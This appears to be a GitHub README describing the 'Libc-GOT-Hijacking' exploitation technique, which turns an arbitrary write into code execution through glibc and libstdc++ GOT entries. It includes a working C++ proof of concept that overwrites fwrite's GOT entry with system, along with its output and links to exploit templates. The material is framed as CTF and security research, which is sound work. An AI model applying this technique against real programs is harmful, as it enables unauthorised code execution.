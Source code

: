 # Libc-GOT-Hijacking 

Transform arbitrary write to RCE.
Libc makes it full RELRO at 2.39 so this skill doesn't work for glibc-2.39+.
However, it works for the libstdc++ on the latest Ubuntu LTS.

This is a userspace attacking skill: If you can write arbitrary memory space, you can use this method to execute arbitrary code. 

> You only need to know the base address of Glibc

# Update (Dec 17th., 2024)

While exploiting a CTF challenge, I found `libstdc++` is a juicy target of this technique. It's still usable on the latest LTS-ubuntu(24.04).

```sh
[14:26:12] n132 :: xps  ➜  ~/Downloads/FL_Support_Center » pwn checksec /lib/x86_64-linux-gnu/libstdc++.so.6
[*] '/lib/x86_64-linux-gnu/libstdc++.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

A simple way to get a shell is just to modify `fread/fwrite` got to `system` and `cin/cout` the string `/bin/sh`. But if ROP is what we want, we can do libc-got-hijacking (ROP over GOT) (even though it's unnecessary, it's a general solution!) 

Here is a demo (https://asciinema.org/a/krgiZ9HEX633nOhgT86OJy3aH)
```c
[18:34:04] n132 :: xps  ➜  ~/demo » cat ./rce.cpp && g++ ./rce.cpp -o ./rce && echo "id" | ./rce
#include <iostream>
int main(){
    // Hijack fwrite@got[plt] to system
    // cout gonna run arbitrary commands
    int num = 915;
    std::string str;
    size_t libc_base = (size_t)system-0x00058740;
    size_t * add_of_del_got = (size_t *)(libc_base + 0x277000 + 0x400000 + num*8);
    * add_of_del_got = (size_t )system;
    std::cin >> str;
    std::cout << str << std::endl;
}
uid=1000(n132) gid=1000(n132) groups=1000(n132),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),114(lpadmin),984(docker)
```

## glibc (2.36-2.38)

Compared to glibc<=2.35 there is mitigation implemented, which forbids the methods for the old library. However, we designed a method to bypass it and execute arbitrary code by 
once arbitrary write on Glibc's GOT table. This method performs Return Oriented Programming (ROP) attack on the Global Offset Table (GOT). 

![AttackFlow](./Img/AttackFlow.png)


You can find details, templates, demos, and everything you want in: [Details][0] and [Templates][3]


## glibc (unk-2.35)


I learned the original method from [Sammy Hajhamid][2] also the methods for glibc <=2.35 are inspired by his work.

Based on his work, We designed a method to execute arbitrary code by once arbitrary write on Glibc's GOT table. The method uses `PLT_0` to push `libc_exe_address` to the stack and then use `POP RSP, RET` to execute our `ROPchain`.

You can find details, templates, demos, and everything you want in: [Details][1] and [Templates][4]

# Acknowledgments

- Great job [@swing][5] on the impressive work with glibc >2.35!

- Appreciate the original work done by @pepsipu.

# Reference link
- [@pepsipu's Method][2]


[0]: ./Post/README.md
[1]: ./Pre/README.md
[2]: https://hackmd.io/@pepsipu/SyqPbk94a
[3]: ./Post/one_punch.py
[4]: ./Pre/templates.md
[5]: https://bestwing.me/
